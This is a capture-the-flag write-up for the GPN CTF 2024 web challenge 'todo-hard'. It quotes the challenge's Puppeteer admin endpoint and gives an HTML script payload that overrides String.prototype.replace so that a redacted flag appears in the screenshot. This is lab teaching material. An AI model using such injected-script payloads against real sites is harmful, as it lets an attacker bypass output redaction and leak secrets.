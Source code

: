 ```yaml
---
ctf-event: GPN CTF 2024
date: 2024-06-01
ctf-team: luxeria
ctf-task: todo-hard
ctf-category: web
ctf-difficulty: 
---
```

# todo-hard

## Description

> I made a JS API! Sadly I had no time to finish it :(
> 
> But I had time to make it harder!

## Challenge

This is similar to the `todo` challenge, but this time, the flag in the response will be replaced by `"nope"`:
```js
app.post('/admin', async (req, res) => {
    try {
        const { html } = req.body;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: ['--no-sandbox'] }); 
        const page = await browser.newPage();
        page.setCookie({ name: 'flag', value: randomBytes, domain: 'localhost', path: '/', httpOnly: true }); 
        await page.goto('http://localhost:1337/');
        await page.type('input[name="html"]', html);
        await page.click('button[type="submit"]');
        await new Promise(resolve => setTimeout(resolve, 2000));
        // NEW: run JS to replace the flag with "nope"
        await page.evaluate((flag) => { document.body.outerHTML = document.body.outerHTML.replace(flag, "nope") },     flag)
        const screenshot = await page.screenshot({ encoding: 'base64' }); 
        await browser.close();
        res.send(`<img src="data:image/png;base64,${screenshot}" />`);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});
```

## Solution

The prototype of the `replace` function can be overwritten, so that another "replace" function is executed which just returns the first argument, instead of performing an actual replacement:
```html
<script>
function Fun(a, b){ return a;};
String.prototype.replace = Fun;
</script>
```

The flag can then be seen in the screenshot in the response:
![](_attachments/Pasted%20image%2020240601215138.png)
